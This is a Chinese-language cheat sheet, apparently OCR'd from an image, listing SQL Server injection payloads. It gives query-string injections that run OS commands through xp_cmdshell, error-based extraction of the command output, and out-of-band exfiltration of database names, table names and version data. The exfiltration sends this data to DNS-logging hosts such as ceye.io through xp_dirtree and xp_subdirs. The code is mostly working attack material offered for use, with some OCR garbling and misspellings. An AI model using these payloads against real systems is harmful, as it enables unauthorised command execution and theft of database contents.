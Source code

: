 ```mssql
# 直接写入,xp_cmdshell后面可以是ipconfig或是echo 1 等等
?id=1';INSERT INTO sqldata (result) EXEC..xp_cmdshell "net user" --
# 或者写入 SET @adqa 将命令编码并赋值给@adqa变量,写入sqldata表
?id=1'; DECLARE @adqa VARCHAR(8000);SET
@adqa=0x6970636F6E666967202F616C6C;INSERT INTO sqldata(result) EXEC master..xp_cmdshell @adqa--
# 报错注入获取命令执行结果.需要使用 isnull,清除空数据
?id=1' and 1<(select top 1 result from sqldata where result not in (select top 2 isnull(result,'') from sqldata)) --
```

### **SQL_server 数据外带**

```mssql
# cmdshell 被删或绕过时, 使用下面这个函数
xp_dirtree('dnslog')
sp_oacreata('')
# 1. 先定义一个变量 declare @a varchar(1024)
# 2. 将要执行的命令赋值给变量 set @a=db_name()
# 3. 2进制到16进制的函数, master.dbo.fn_varbintohexstr()
-----------------------------------------------------------------------------------------------------
# 例如: 
?id=1; declare @a varchar(1024);
set @a = '\\'+master.dbo.fn_varbintohexstr(convert(varbinary(max),substring(@@version,1,15)))+'dns域名';
exec xp_dirtree @a;
?id=1; declare @a varchar(1024);
set @a='\\'+master.dbo.fn_varbintohexstr(convert(varbinary(max),(select top 1 name from master.dbo.sysdatabases where name not in (select top 0 name from master.dbo.sysdatabases))))+'dns域名';
exec xp_dirtree @a;
?id=1; declare @a varchar(1024);
set @a='\\'+master.dbo.fn_varbintohexstr(convert(varbinary(max),(select top 1 name from 库名..sysobjects where xtype=char(85) and name not in (select top 1 name from 库名..sysobjects where xtype=char(85)))))+'dns域名'
exec xp_dirtree @a;
-----------------------------------------------------------------------------------------------------
# 数据外带实例
# 爆库
http://127.0.0.1/info.aspx?id=1;
declare @a varchar(1024);
set @a=(select top 1 name from master..sysdatabases where name not in
(select top 1 name from master..sysdatabases));
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# 爆当前连接的数据库名
http://127.0.0.1/info.aspx?id=1;
declare @a varchar(1024);
set @a=(select db_name());
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# master库的表数量是2033,其中用户自建表数量为20
declare @a varchar(1024);
set @a=(select count(name) from master..sysobjects where xtype='U');
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
#
22-57
declare @a varchar(1024);
set @a=(select count(name) from "22"..sysobjects where xtype='U');
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# 爆 master 库表
declare @a varchar(1024);
set @a=(select top 1 name from master..sysobjects where xtype=char(85) and
name not in (select top 1 name from master..sysobjects where
xtype=char(85)));
```
